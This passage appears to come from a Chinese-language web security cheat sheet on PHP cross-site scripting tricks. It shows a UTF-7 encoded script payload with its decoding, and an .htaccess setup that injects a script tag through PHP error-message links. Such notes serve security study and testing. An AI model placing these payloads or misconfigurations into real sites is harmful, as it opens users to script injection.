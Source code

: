 

`+ADw-script+AD4-alert(1)+ADsAPA-/script+AD4`

解码后为

`<script>alert(1);</script>`







#### XSS via error message link extension

index.php:

```
<?php
include('foo');
```

.htaccess:

```
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "x"
php_value docref_ext "<script>alert(1);</script>"
```





![image-20200912103938003](assets/image-20200912103938003.png)







#### XSS via highlight_file() color
